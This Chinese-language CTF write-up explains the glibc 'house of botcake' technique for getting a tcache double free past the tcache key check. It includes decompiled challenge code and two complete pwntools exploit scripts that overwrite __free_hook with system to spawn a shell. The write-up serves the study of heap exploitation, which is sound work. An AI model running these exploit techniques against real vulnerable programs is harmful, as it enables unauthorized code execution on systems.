

house of botcake & Tcache Double Free学习利用

- - -

# house of botcake & Tcache Double Free学习利用

### house of botcake介绍：

> 高版本unsortedbin中double free打tcache poisoning：
> 
> Glibc 2.29版本新增了Tcache Key机制来应对Tcache Double Free，house of botcake是利用UAF漏洞将Chunk存入Unsorted bin中，绕过Tcache Key机制的检查进行Double Free，使得Chunk再次存入到Tcache bin中

‍

#### 利用条件:

> -   存在 UAF 漏洞
> -   可以进行至少两次 Free 操作

‍

#### 源码分析：

Tcache Key机制介绍

```plain
size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
    /* Check to see if it's already in the tcache.  */
    tcache_entry *e = (tcache_entry *) chunk2mem (p);

    /* This test succeeds on double free.  However, we don't 100%
       trust it (it also matches random payload data at a 1 in
       2^<size_t> chance), so verify it's not an unlikely
       coincidence before aborting.  */
    if (__glibc_unlikely (e->key == tcache))
      {
        tcache_entry *tmp;
        LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
        for (tmp = tcache->entries[tc_idx];
         tmp;
         tmp = tmp->next)
          if (tmp == e)
        malloc_printerr ("free(): double free detected in tcache 2");
        /* If we get here, it was a coincidence.  We've wasted a
           few cycles, but don't abort.  */
      }
```

被free的堆块进入unsorted bin中，避免了key的生成。当堆块再次free进入tcache后，就绕过了Tcache Key机制的检查，从而能够实现高版本的tcache double free

‍

‍

### 2022DAS10Y Magic\_Book

##### 静态分析：

```plain
[*] '/home/shu/mypwn/House of house/house of botcake/Magic_Book/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

程序没有edit函数和show函数，然后有只能用一次的UAF漏洞。对申请的字节数还有限制，最大为0x100

```plain
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax
  int v4; // [rsp+Ch] [rbp-14h] BYREF
  int *v5; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf_0(a1, a2, a3);
  v4 = 0;
  v5 = &v4;
  book_of_wishes();
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      __isoc99_scanf("%d", v5);
      v3 = *v5;
      if ( *v5 != 9 )
        break;
      delete_uaf();
    }
    if ( v3 <= 9 )
    {
      if ( v3 == 1 )
      {
        add();
      }
      else if ( v3 == 2 )
      {
        delete();
      }
    }
  }
}
```

‍

```plain
__int64 delete_uaf()
{
  int idx; // [rsp+Ch] [rbp-4h]

  if ( dword_4054 > 0 )
  {
    puts("Wrong!\n");
    exit(0);
  }
  printf("Index: ");
  idx = read_idx();
  free(*((void **)&unk_4060 + idx));
  return (unsigned int)++dword_4054;
}


int delete()
{
  int result; // eax
  int v1; // [rsp+Ch] [rbp-4h]

  if ( dword_4050 > 1 )
  {
    puts("There is now an opportunity to withdraw, but sometimes...");
    ++dword_4050;
  }
  result = dword_405C;
  if ( dword_405C <= 10 )
  {
    printf("Index: ");
    result = read_idx();
    v1 = result;
    if ( (unsigned int)result <= 0x11 )
    {
      if ( !*((_QWORD *)&unk_4060 + result) )
      {
        puts("Wrong!\n");
        exit(0);
      }
      free(*((void **)&unk_4060 + result));
      *((_QWORD *)&unk_4060 + v1) = 0LL;
      return puts("Done!\n");
    }
  }
  return result;
}
```

##### 动态调试：

这题如果单纯的打house of botcake，那么后续只能打io leak泄露一个堆地址。如果想第二次打tcache poisoning的话，就必须要进行一点布局

```plain
add(0x100,'a')
    add(0x100,'b')

    add(0x80,'c')
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162844-27dee414-845a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162850-2b91ef52-845a-1.png)

```plain
for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i) 

    uaf(1)

    delete(0)
```

将 chunk3-10 delete来把tcachebin填满

free掉chunk1，再将chunk0 delete来与chunk1合并

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162913-3936009e-845a-1.png)

‍

```plain
add(0x100,'a')#take one from tcache bin

    delete(1)#double free
```

原chunk1 double free

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162921-3de20ef8-845a-1.png)

‍

```plain
add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct
```

申请不同于0x100大小的堆块来分割unsortedbin

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162927-415b31b8-845a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162931-4393a3ac-845a-1.png)

‍

```plain
payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin
```

原chunk1剩余的部分杯篡改为0x180大小

我们先前对chunk4的布置，伪造的prev\_size和size

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162937-47364942-845a-1.png)

‍

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162942-4a97e276-845a-1.png)

‍

```plain
payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak
```

io leak泄露libc地址

‍

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116162953-50d6d69c-845a-1.png)

‍

```plain
delete(12)

    delete(2)#second tcache poisoning
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116163029-664d8598-845a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116163034-691bbba0-845a-1.png)

‍

```plain
payload=p64(0xdeadbeef)*12+p64(0x70)+p64(0x90)+p64(free_hook)
    add(0xb0,payload)#Cut a piece of memory from unsorted bin to control the fd pointer of tcache bin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116163041-6d8cddb8-845a-1.png)

‍

```plain
add(0x80,'/bin/sh\x00')

    add(0x80,p64(sys_addr))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116163047-70fb2112-845a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116163051-73c772f6-845a-1.png)

‍

##### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
# from ae64 import AE64
# from LibcSearcher import *

context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def dbg():
    gdb.attach(proc.pidof(p)[0])
    pause()


def add(size,content):
    p.sendlineafter("Your choice : ",str(1))
    p.sendlineafter("Size: ",str(size))
    p.sendafter("Content: ",content)

def delete(index):
    p.sendlineafter("Your choice : ",str(2))
    p.sendlineafter("Index: ",str(index))

def uaf(index):
    p.sendlineafter("Your choice : ",str(9))
    p.sendlineafter("Index: ",str(index))

def pwn():
    add(0x100,'a')#prev
    add(0x100,'b')#victim

    add(0x80,'c')#second tcache poisoning.after the first tcache poisoning,the 0x100 tcache chain will bad
    #so we need to prepare 0x80 tcache chain
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged

    for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i) 

    uaf(1)

    delete(0)

    add(0x100,'a')#take one from tcache bin

    delete(1)#double free

    add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct

    payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin

    payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak

    leak_libc=l64()
    libc_base=leak_libc-0x1ec980
    li('libc_base = '+hex(libc_base))

    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']


    delete(12)

    delete(2)#second tcache poisoning

    payload=p64(0xdeadbeef)*12+p64(0x70)+p64(0x90)+p64(free_hook)
    add(0xb0,payload)#Cut a piece of memory from unsorted bin to control the fd pointer of tcache bin 


    add(0x80,'/bin/sh\x00')

    add(0x80,p64(sys_addr)) 

    delete(17)
    p.interactive()

while 1:
    try:
     p = process('./pwn') 
     libcso = './libc'
     libc = ELF(libcso)
     elf = ELF('./pwn')
     pwn()

    except:
     p.close()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116163102-79fa2baa-845a-1.png)

‍

### Note2

##### 静态分析：

保护全开

```plain
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

常规菜单题，没有edit功能

```plain
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 number; // rax

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  while ( 1 )
  {
    print_menu();
    number = get_number();
    if ( number == 4 )
    {
      puts("Bye!");
      exit(0);
    }
    if ( number <= 4 )
    {
      switch ( number )
      {
        case 3uLL:
          op_view();
          goto LABEL_13;
        case 1uLL:
          op_malloc();
          goto LABEL_13;
        case 2uLL:
          op_free();
          goto LABEL_13;
      }
    }
    puts("Invalid choice!");
LABEL_13:
    putchar(10);
  }
}
```

在op\_free函数中观察到很明显的UAF漏洞

```plain
void op_free()
{
  __int64 index; // [rsp+8h] [rbp-8h]

  puts("Index?");
  index = get_index();
  free(*((void **)&chonks + index));
}
```

和上一题的打法相似，依旧是围绕double free做文章

##### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64

context.os = 'linux'
context.arch = 'amd64'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    p = process(name)

libcso = './libc.so.6'
libc = ELF(libcso)
elf = ELF(name)


s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

add_idx = 1
free_idx = 2
show_idx = 3

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()


def choice(cho):
    sla('> ',cho)

def add(idx,size,con):
    choice(add_idx)
    sla('Index?\n',idx)
    sla('Size?\n',size)
    p.sendlineafter('content: ',con)

def delete(idx):
    choice(free_idx)
    sla('Index?\n',idx)

def show(idx):
    choice(show_idx)
    sla('Index?\n',idx)

add(0,0x100,'aaa') #F
add(1,0x100,'bbb') #C

for i in range(2,9):
    add(i,0x100,'eee')

for i in range(2,9):
    delete(i)

delete(1)
show(1)
libc_base=l64()-0x1ecbe0
li('libc_base = '+hex(libc_base))
free_hook=libc_base+0x1eee48
system=libc_base+0x52290

delete(0)

add(2,0x100,'tcache')
delete(1) #double free

add(3,0x70,'111')
add(4,0x80,'222')
add(5,0x90,p64(free_hook))

add(6,0x100,'/bin/sh\x00')
add(7,0x100,p64(system))

delete(6)


itr()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116163111-7fa25582-845a-1.png)

成功getshell

‍

‍

note2.zip (0.911 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231116163140-90780d7a-845a-1.zip)

magic\_book.zip (0.915 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231116163147-94b21700-845a-1.zip)
